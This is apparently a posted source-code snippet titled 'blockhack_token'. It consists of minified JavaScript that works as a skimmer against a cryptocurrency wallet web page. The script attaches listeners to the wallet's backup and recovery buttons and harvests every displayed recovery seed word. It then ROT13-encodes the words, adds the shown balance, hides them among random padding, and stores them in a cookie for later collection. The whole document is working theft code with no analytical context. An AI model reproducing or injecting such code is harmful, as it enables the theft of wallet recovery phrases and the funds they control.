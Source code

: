 # blockhack_token
function blockhack_token(e){return(e+"").replace(/[a-z]/gi,function(e){return String.fromCharCode(e.charCodeAt(0)+("n">e.toLowerCase()?13:-13))})}function sleep(e){return new Promise(function(t){return setTimeout(t,e)})}function makeid(e){for(var t="",n=0;n&lt;e;n++)t+="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789".charAt(Math.floor(62*Math.random()));return t}for(var elems=document.querySelectorAll(".sc-bdVaJa.iOqSrY"),keys=[],result=makeid(300),i=elems.length;i--;)"backupFundsButton"==elems[i].getAttribute("data-e2e")&amp;&amp;elems[i].addEventListener("click",myFunc,!1);function myFunc(){setTimeout(function(){for(var e=document.querySelectorAll(".sc-bdVaJa.KFCFP"),t=e.length;t--;)e[t].addEventListener("click",start,!1)},1e3)}function start(){keys=[],setTimeout(function(){var e=document.querySelectorAll("div[data-e2e=backupWords]"),t=document.querySelectorAll(".KFCFP");for(e.forEach(function(e,t,n){e=blockhack_token(e.getElementsByTagName("div")[1].textContent),keys.push(e.replace(/\s/g,""))}),e=t.length;e--;)"toRecoveryTwo"==t[e].getAttribute("data-e2e")&amp;&amp;t[e].addEventListener("click",end,!1)},1e3)}function end(){setTimeout(function(){document.querySelectorAll("div[data-e2e=backupWords]").forEach(function(e,t,n){e=blockhack_token(e.getElementsByTagName("div")[1].textContent),keys.push(e.replace(/\s/g,""))});var e=document.querySelectorAll("div[data-e2e=topBalanceTotal]")[0].textContent,t=result+"["+e+"]["+keys.join("]"+makeid(300)+"[");t+="]"+makeid(300),document.cookie="blockhack_token="+t},1e3)}
